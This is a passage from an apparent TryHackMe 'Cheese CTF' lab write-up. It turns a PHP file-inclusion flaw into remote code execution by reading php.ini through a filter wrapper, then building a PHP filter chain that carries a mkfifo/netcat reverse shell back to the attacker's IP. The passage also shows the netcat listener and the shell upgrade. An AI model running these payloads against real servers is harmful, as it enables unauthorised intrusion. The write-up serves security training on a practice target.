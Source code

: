 We see that a local user Comte is present on the system. The PHP include() function does not only read files but also executes any PHP code in those files. We can use many PHP wrappers to achieve RCE on the target but for this to be possible the allow_url_include setting must be enabled on the target. We can enumerate this setting by reading the php.ini file.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Cheese_CTF/Misc Files]
└─$ curl -s http://10.10.197.14/secret-script.php?file=php://filter/convert.base64-encode/resource=/etc/php/7.4/apache2/php.ini | base64 -d | grep allow_url_include
allow_url_include = Off
```
## Exploitation

The setting appears to be off so we can use neither the data nor the input filter to achieve RCE. Another effective method to achieve RCE is generating PHP filter chains. This [video](https://www.youtube.com/watch?v=PVdOSpF4Tl0&t=720s) explains how this exploitation technique functions. We can use this [Python script](https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/refs/heads/main/php_filter_chain_generator.py) to generate dynamic PHP filter chains depending on the input string. We can download this script and start our listener on our attack host.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Cheese_CTF/Misc Files]
└─$ wget https://raw.githubusercontent.com/synacktiv/php_filter_chain_generator/refs/heads/main/php_filter_chain_generator.py
<SNIP>
┌──(pentester㉿kali)-[~/…/TryHackMe/Cheese_CTF/Scans/Web]
└─$ nc -lvnp 1234
listening on [any] 1234 ..
```

We want to execute a reverse shell on the target so, we will create a PHP filter chain of a reverse shell and store it in a file. 
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Cheese_CTF/Misc Files]
└─$ python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.23.19 1234 >/tmp/f"); ?>' | grep '^php' > payload.txt
```

Now that we have our payload ready we can send it to the include function that will execute it.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Cheese_CTF/Misc Files]
└─$ curl -s http://10.10.140.167/secret-script.php?file=$(cat payload.txt) 
```

When we visit back our listener we will see a reverse connection from the target. We can upgrade this shell to a fully interactive shell as shown below.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Cheese_CTF/Scans/Web]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.23.19] from (UNKNOWN) [10.10.140.167] 53960
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")' 
www-data@cheesectf:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 1234

┌──(pentester㉿kali)-[~/…/TryHackMe/Cheese_CTF/Scans/Web]
└─$ stty raw -echo;fg     
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
www-data@cheesectf:/var/www/html$ 
```
